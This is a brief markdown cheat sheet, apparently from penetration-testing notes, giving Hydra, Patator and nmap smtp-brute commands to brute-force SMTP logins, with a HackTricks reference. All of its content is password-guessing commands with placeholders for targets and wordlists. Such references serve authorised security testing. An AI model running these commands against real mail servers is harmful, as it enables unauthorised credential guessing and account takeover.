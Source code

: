 # SMTP

## 01 - Hydra

```
$ hydra -V -l <username> -P passwords.lst [-s <PORT>] <IP> smtp
```

## 02 - Patator

```
$ patator smtp_login
```

## 03 - Network Mapper

```
$ nmap -p 25 --script smtp-brute --script-args smtp-brute.auth=<LOGIN | PLAIN | CRAM-MD5 | DIGEST-MD5 | NTLM>

$ nmap -p 25 --script smtp-brute --script-args "smtp-brute.auth=LOGIN,userdb=users.lst,passdb=passwords.lst" <IP>
```

---
## References

- [Hacktricks: Brute Force SMTP](https://book.hacktricks.wiki/en/generic-hacking/brute-force.html)